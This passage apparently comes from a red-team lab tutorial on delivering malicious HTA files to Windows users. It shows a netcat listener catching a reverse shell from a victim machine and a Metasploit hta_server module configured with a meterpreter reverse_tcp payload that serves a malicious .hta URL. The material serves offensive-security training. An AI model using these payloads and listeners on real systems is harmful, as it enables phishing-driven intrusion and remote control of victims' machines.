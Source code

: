 We use the msfvenom from the Metasploit framework to generate a malicious payload to connect back to the attacking  machine. We used the following payload to connect the windows/x64/shell_reverse_tcp to our IP and listening port.

On the attacking machine, we need to listen to the port 443 using nc. Please note this port needs root privileges to open, or you can use different ones.





Once the victim visits the malicious URL and hits run, we get the connection back.

```shell-session
user@machine$ sudo nc -lvp 443
listening on [any] 443 ...
10.8.232.37: inverse host lookup failed: Unknown host
connect to [10.8.232.37] from (UNKNOWN) [10.10.201.254] 52910
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\thm\AppData\Local\Packages\Microsoft.MicrosoftEdge_8wekyb3d8bbwe\TempState\Downloads>
pState\Downloads>ipconfig
ipconfig

Windows IP Configuration


Ethernet adapter Ethernet 4:

   Connection-specific DNS Suffix  . : eu-west-1.compute.internal
   Link-local IPv6 Address . . . . . : fe80::fce4:699e:b440:7ff3%2
   IPv4 Address. . . . . . . . . . . : 10.10.201.254
   Subnet Mask . . . . . . . . . . . : 255.255.0.0
   Default Gateway . . . . . . . . . : 10.10.0.1
```

Malicious HTA via Metasploit 

There is another way to generate and serve malicious HTA files using the Metasploit framework. First, run the Metasploit framework using msfconsole -q command. Under the exploit section, there is exploit/windows/misc/hta_server, which requires selecting and setting information such as LHOST, LPORT, SRVHOST, Payload, and finally, executing exploit to run the module.

```shell-session
msf6 > use exploit/windows/misc/hta_server
msf6 exploit(windows/misc/hta_server) > set LHOST 10.8.232.37
LHOST => 10.8.232.37
msf6 exploit(windows/misc/hta_server) > set LPORT 443
LPORT => 443
msf6 exploit(windows/misc/hta_server) > set SRVHOST 10.8.232.37
SRVHOST => 10.8.232.37
msf6 exploit(windows/misc/hta_server) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(windows/misc/hta_server) > exploit
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
msf6 exploit(windows/misc/hta_server) >
[*] Started reverse TCP handler on 10.8.232.37:443
[*] Using URL: http://10.8.232.37:8080/TkWV9zkd.hta
[*] Server started.
```
